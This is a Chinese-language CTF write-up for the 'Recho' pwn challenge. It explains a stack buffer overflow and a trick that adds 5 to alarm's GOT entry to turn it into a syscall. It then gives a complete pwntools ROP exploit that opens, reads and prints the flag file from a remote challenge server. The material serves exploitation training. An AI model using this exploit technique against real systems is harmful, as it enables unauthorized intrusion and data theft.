




拿到程序先看main函数

```
int __fastcall main(int argc, const char **argv, const char **envp)
{
  char nptr[16]; // [rsp+0h] [rbp-40h] BYREF
  char buf[40]; // [rsp+10h] [rbp-30h] BYREF
  int v6; // [rsp+38h] [rbp-8h]
  int n16; // [rsp+3Ch] [rbp-4h]

  Init(argc, argv, envp);
  write(1, "Welcome to Recho server!\n", 0x19u);
  while ( read(0, nptr, 0x10u) > 0 )
  {
    n16 = atoi(nptr);
    if ( n16 <= 15 )
      n16 = 16;
    v6 = read(0, buf, n16);
    buf[v6] = 0;
    printf("%s", buf);
  }
  return 0;
}
```

很简单的无限读取循环函数。由于能操纵第二个read读取的字节数，所以buf存在栈溢出。

但是程序没给后门函数没法直接跳转。然后就需要用到libc。but要用libc就需要泄露libc地址。



程序就开了一个NX防护。此时有一个问题，read会一直保持真，函数不会停止。既然不会停止就不会触发返回地址进行跳转。本地可以用ctrl+D但是远程呢。只能用pwntools的函数shutdown。但是如果要进行泄露就需要先触发跳转，触发跳转就要结束程序，之后的利用泄露进行攻击就无法进行。所以只能一次发送攻击脚本。



这时候就要用got表修改了。alarm的got表在加5时会变成syscall。然后就可以利用系统调用号调取open打开flag的文件读取到内存上然后用printf打印出。这里之所以不利用系统调用号调取system归根结底还是因为要触发返回地址就要结束程序，就算后面获得了shell也无法发送指令。

这里还有一个问题，我应该怎么才能让alarm的got表加5呢。这应该是这个题最恶心的一个点。

!

翻看程序汇编指令，会有这样一段非常奇怪的汇编指令

!

强转为汇编指令就会发现这个正是我们想要的add，将rdi储存地址里的数据加上al。这里给不知道al的同僚补充一下，al是rax的低八字节，ah是高八字节。

到这里整个rop链就通了。先利用发现的代码片段修改got表，然后再调用alarm（其实就是跳转到syscall）。再利用syscall调取open函数跟write函数读取到空白的.bss段然后利用printf输出。

```
from pwn import *
r = remote('61.147.171.105',63112)
elf = ELF('./2')
add_rdi = p64(0x40070d)
bss_addr = p64(0x601080)
flag_addr = p64(0x601058)
pop_rax_ret = p64(0x4006fc)
pop_rdi_ret = p64(0x4008A3)
pop_rsi_r15_ret = p64(0x4008a1)
pop_rdx_ret = p64(0x4006fe)
 
alarm_got = p64(elf.got['alarm'])
syscall = p64(elf.plt['alarm'])
printf = p64(elf.plt['printf'])
read = p64(elf.plt['read'])
r.recvuntil("Welcome to Recho server!\n")
r.sendline(str(0x200))
payload = b'a'*56
payload += pop_rdi_ret+alarm_got
payload += pop_rax_ret+p64(5)
payload += add_rdi 
payload += pop_rdi_ret + flag_addr
payload += pop_rsi_r15_ret+p64(0)+p64(0)
payload += pop_rax_ret + p64(2)
payload += syscall
payload += pop_rdi_ret + p64(3)
payload += pop_rsi_r15_ret + bss_addr + p64(0)
payload += pop_rdx_ret + p64(0x100)
payload += read
payload += pop_rdi_ret + bss_addr
payload += printf
payload = payload.ljust(0x200, b"\x00")
r.sendline(payload)
r.shutdown("write")
r.interactive()
```

